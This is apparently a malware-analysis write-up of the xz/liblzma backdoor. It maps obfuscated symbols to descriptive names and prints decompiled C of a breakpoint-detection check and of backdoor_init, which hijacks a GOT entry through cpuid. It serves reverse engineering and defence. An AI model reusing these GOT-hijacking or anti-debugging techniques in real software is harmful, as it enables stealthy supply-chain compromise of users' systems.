 - `Llzma_delta_props_decoder` -> `backdoor_ctx_save`

- `Llzma_block_param_encoder_0` -> `backdoor_init`
- `Llzma_delta_props_encoder` -> `backdoor_init_stage2`

- `Llzma_simple_props_size_part_0` -> `is_gnu_relro`


-----
##### Prefix Trie (https://social.hackerspace.pl/@q3k/112184695043115759)
- `Llzip_decode_1` -> `table1`
- `Lcrc64_clmul_1` -> `table2`	
-----

- `Llzma_delta_decoder_init_part_0` -> `backdoor_ctx_init`
- `Lsimple_coder_update_0` -> `table_get`
- `Lcrc_init_0` -> `table_lookup_multi`
- `Llz_stream_decode` -> `count_1_bits`
- `.Lcrc64_generic.0` -> `table_lookup_ex`

- `Llzma_block_buffer_encode_0` -> `check_F223`
- `Lstream_decoder_memconfig_part_1` -> `get_lzma_allocator`

- `Llzma_simple_props_encode_1` -> `j_tls_get_addr`
- `Llzma_block_uncomp_encode_0` -> `rodata_ptr_offset`

- `Llzma12_coder_1` -> `global_ctx`

- `Llzma_index_memusage_0` -> `apply_entries`
- `Llzma_check_init_part_0` -> `apply_one_entry`
- `Lrc_read_init_part_0` -> `apply_one_entry_internal`

- `Llzip_decoder_memconfig_part_0` -> `installed_func_0`
- `Llzma_index_stream_size_1` -> `installed_func_1`
- `Lindex_decode_1` -> `installed_func_2`
- `Lindex_encode_1` -> `installed_func_3`

- `Llzma2_decoder_end_1` -> `apply_one_entry_ex`

- `Lget_literal_price_part_0` -> `parse_elf`
- `Lparse_bcj_0` -> `process_elf_seg`

- `Lmicrolzma_encoder_init_1` -> `parse_elf_init`
- `Llzma_filter_decoder_is_supported.part.0` -> `parse_elf_invoke`

- `Llzma_stream_header_encode_part_0` -> `get_ehdr_address`
- `Llzma_stream_flags_compare_1` -> `get_rodata_ptr`

- `Llzma2_encoder_init.1` -> `apply_method_1`
- `Llzma_memlimit_get_1` -> `apply_method_2`

- `Lx86_code_part_0` -> `code_dasm`


-----
Software Breakpoint check, method 1
-----

This method checks if the instruction `endbr64`, which is always present at the beginning of every function in the malware, is overwritten.
GDB would typically do this when inserting a software breakpoint

```c
/*** address: 0xAB0 ***/
__int64 check_software_breakpoint(_DWORD *code_addr, __int64 a2, int a3)
{
  unsigned int v4;

  v4 = 0;
  // [for a3=0xe230], true when *v = 0xfa1e0ff3 (aka endbr64)
  if ( a2 - code_addr > 3 )
    return *code_addr + (a3 | 0x5E20000) == 0xF223;// 5E2E230
  return v4;
}
```

----
Function backdoor_init (0xA784

```c
__int64 backdoor_init(rootkit_ctx *ctx, DWORD *prev_got_ptr)
{
  _DWORD *v2;
  __int64 runtime_offset;
  bool is_cpuid_got_zero;
  void *cpuid_got_ptr;
  __int64 got_value;
  _QWORD *cpuid_got_ptr_1;

  ctx->self = ctx;
  // store data before overwrite
  backdoor_ctx_save(ctx);
  ctx->prev_got_ptr = ctx->got_ptr;
  runtime_offset = ctx->head - ctx->self;
  ctx->runtime_offset = runtime_offset;
  is_cpuid_got_zero = (char *)*(&Llzma_block_buffer_decode_0 + 1) + runtime_offset == 0LL;
  cpuid_got_ptr = (char *)*(&Llzma_block_buffer_decode_0 + 1) + runtime_offset;
  ctx->got_ptr = cpuid_got_ptr;
  if ( !is_cpuid_got_zero )
  {
    cpuid_got_ptr_1 = cpuid_got_ptr;
    got_value = *(QWORD *)cpuid_got_ptr;
    // replace with Llzma_delta_props_encoder (backdoor_init_stage2)
    *(QWORD *)cpuid_got_ptr = (char *)*(&Llzma_block_buffer_decode_0 + 2) + runtime_offset;
    // this calls Llzma_delta_props_encoder due to the GOT overwrite
    runtime_offset = cpuid((unsigned int)ctx, prev_got_ptr, cpuid_got_ptr, &Llzma_block_buffer_decode_0, v2);
    // restore original
    *cpuid_got_ptr_1 = got_value;
  }
  return runtime_offset;
}
```
----